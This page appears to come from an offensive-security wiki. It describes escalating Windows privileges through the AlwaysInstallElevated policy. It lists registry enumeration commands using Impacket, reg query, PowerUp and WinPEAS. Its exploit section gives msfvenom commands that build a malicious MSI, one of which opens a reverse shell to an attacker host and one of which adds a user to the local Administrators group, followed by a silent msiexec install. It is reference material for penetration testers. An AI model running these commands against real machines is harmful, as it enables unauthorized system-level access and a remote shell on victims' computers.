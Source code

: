 ```yaml
---
description: 'MITRE ATT&CK™  System Binary Proxy Execution: Msiexec - Technique T1218.007'
---
```


# AlwaysInstallElevated

## Theory

The **AlwaysInstallElevated** policy feature offers ALL users on a Windows operating systems the ability to install an MSI package file with elevated (system) privileges.

## Practice

{% tabs %}
{% tab title="Enumerate - UNIX-like" %}
If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys. [Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to query registry remotely from a UNIX-like machine.

```bash
reg.py domain.local/username:password123@<TARGET_IP> query -keyName "HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
reg.py domain.local/username:password123@<TARGET_IP> query -keyName "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
```
{% endtab %}

{% tab title="Enumerate - Windows" %}
Manual verification of the activation of this parameter is very simple and can be done with two commands. If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Alternatively, using [PowerUp](https://github.com/PowerShellMafia/PowerSploit) from Powersploit we can enumerate the AlwaysInstallElevated policy.

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Alternatively, using the `systeminfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe systeminfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to generate a malicious MSI file and install it with `msiexec.exe`

Generate a malicious MSI

```bash
# Reverse Shell
v4resk㉿kali$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f msi > package.msi

# Add user to Administrators
v4resk㉿kali$ msfvenom -p windows/exec CMD='net localgroup administrators <YOUR_USER> /add' -f msi > package.msi
```

Then, after downloading it to the target, install the MSI file using msiexec

```powershell
msiexec.exe /quiet /qn /i package.msi
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://juggernaut-sec.com/alwaysinstallelevated/" %}
